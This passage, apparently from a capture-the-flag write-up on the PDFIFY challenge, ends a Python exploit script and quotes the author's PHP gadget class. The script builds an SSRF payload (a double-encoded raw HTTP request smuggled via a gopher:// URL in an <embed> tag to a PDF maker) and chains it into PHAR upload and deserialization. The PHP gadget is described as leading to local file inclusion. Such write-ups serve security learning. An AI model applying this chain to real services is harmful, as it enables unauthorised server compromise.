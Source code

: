 ```python

    final_req = f"{prepare_req.method} {prepare_req.path_url} HTTP/1.1\r\n"
    final_req += f"Host: 127.0.0.1\r\n"
    final_req += "\r\n".join("{}: {}".format(x, y) for x, y in prepare_req.headers.items())
    final_req += "\r\n\r\n"
    final_req += prepare_req.body

    payload = urllib.parse.quote(urllib.parse.quote(final_req))
    # payload = urllib.parse.quote(final_req)
    imgPayload = f"<embed src='http://localhost:5000/curl?url=gopher://localhost:80/_{payload}' />"

    a = session.post(url+"/pdf-maker", data={
        "body": imgPayload,
        "option": "getOutputFromHtml"
    })

getAdminSession()
uploadPhar()
triggerPharDeserialize()
```

![video1][video1]
<p align="center"><i>Figure 5: Final exploit</i></p>

## Additional Information
After the event closed, the author of the challenge release solutions for eevery single challenges. On PDFIFY challenge, the author used other custom gadget from `./src/backend/app/Helpers/render_helper.php`. On `__toString()`, we can pass our input to `view()` function, which eventually make local file inclusion. 
```php
<?php

class Template
{
    protected $name;
    protected $data;

    function __construct($name = "")
    {
        $this->name = $name;
        $this->data = array();
        $this->data['title'] = "default-title";
    }
    function __toString()
    {
        return view("templates/header", $this->data)
            . view($this->name)
            . view("templates/footer");
    }
    // ...
}
```
